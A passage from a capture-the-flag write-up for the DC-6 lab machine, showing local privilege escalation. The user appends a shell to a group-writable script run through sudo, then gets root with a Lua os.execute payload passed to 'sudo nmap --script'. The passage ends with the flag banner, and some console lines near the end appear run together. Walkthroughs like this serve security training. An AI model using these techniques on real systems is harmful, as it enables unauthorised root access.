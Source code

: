 Graham can execute a script as jens, let's see it:
```Console
graham@dc-6:/home/jens$ ls -l
total 4
-rwxrwxr-x 1 jens devs 50 Apr 26  2019 backups.sh
graham@dc-6:/home/jens$ cat backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:/home/jens$ id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
```
You can write because you are in devs group. Get a bash appending it to the end:

```Console
graham@dc-6:/home/jens$ echo "/bin/bash" >> backups.sh 
graham@dc-6:/home/jens$ sudo -u jens ./backups.sh 
tar: Removing leading `/' from member names
jens@dc-6:~$ whoami
jens
jens@dc-6:~$ id
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
```

Jens can execute nmap as root, so let's be root:
```Console
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
jens@dc-6:~$ TF=test
jens@dc-6:~$ echo 'os.execute("/bin/bash")' > "$TF"
jens@dc-6:~$ sudo nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2022-09-08 04:03 AEST
NSE: Warning: Loading 'test' -- the recommended file extension is '.nse'.
root@dc-6:/home/jens# uid=0(root) gid=0(root) groups=0(root)
root@dc-6:/home/jens# root
root@dc-6:/home/jens# root@dc-6:~# theflag.txt
root@dc-6:~# 

Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

